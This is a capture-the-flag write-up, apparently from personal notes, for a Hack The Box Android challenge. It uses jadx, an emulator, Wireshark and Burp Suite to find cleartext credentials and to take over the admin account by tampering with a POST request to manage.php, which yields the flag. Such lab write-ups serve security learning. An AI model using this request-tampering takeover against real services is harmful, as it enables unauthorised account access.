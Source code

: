 # Manager
## jadx-gui
## Wireshark
## Android Studio
## Burpsuite
```bash

# CHALLENGE DESCRIPTION
# A client asked me to perform security assessment on this password management application. Can you help me?

➜  mkdir htb/Intro_to_Android_Exploitation/Manager ; cd htb/Intro_to_Android_Exploitation/Manager ; mv Manager.zip .
➜  Manager sha256sum Manager.zip | grep cb58a2a3018174cbd8d4e267655625be405440a026711ac38c8d561884cba988

cb58a2a3018174cbd8d4e267655625be405440a026711ac38c8d561884cba988  Manager.zip

➜  sudo apt install jadx

➜  jadx-gui &

Open file -> Manager.apk -> Open file
Go to: Source code -> com -> example.manager
Review code

Go to: Android Studio
Device -> Virtual Device Configuration -> Verify Configuration -> AVD Name
Change:

Pinned

To

Manager

Finish
Emulator settings are configured with burpsuite. Apparently it was required to configure in phone settings if directly using Android Studio without prior setup this way

➜  cd ~/Android/Sdk/tools 
➜  emulator -avd Manager

Drag and drop manager.apk from folder into 'Application menu' in emulator

➜  tools sudo wireshark &
➜  java -jar -Xmx4g /Downloads/BurpSuitePro/burpsuite_pro.jar &

Wireshark filter:

ip.addr == 178.128.43.97

Open manager.apk in emulator:

178.128.43.97:32478

Register user:

hey:hey

Change user password:

hey:heyhey

**Wireshark content can be skipped**
Right-click login.php -> Follow -> HTTP stream

uname:pword over cleartext

Right-click register.php -> Follow -> HTTP stream

uname:pword over cleartext

Right-click manage.php -> Follow -> HTTP stream

uname:pword over cleartext

In burpsuite:
Go to: HTTP history

Find:

POST /manage.php HTTP/1.1

Send to repeater
Change:

username=hey&password=hey

To

username=admin&password=admin

Response:

HTTP/1.1 200 OK

Password updated successfully.

Change:

POST /manage.php HTTP/1.1

To

POST /login.php HTTP/1.1

Response:

HTTP/1.1 200 OK

{"id":1,"username":"admin","password":"admin","role":"HTB{b4d_p@ss_m4n@g3m3nT_@pp}"}

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627000415.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627003243.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627004403.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627001414.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627001607.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627001525.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627002147.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627002244.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627002414.png)

#hacking
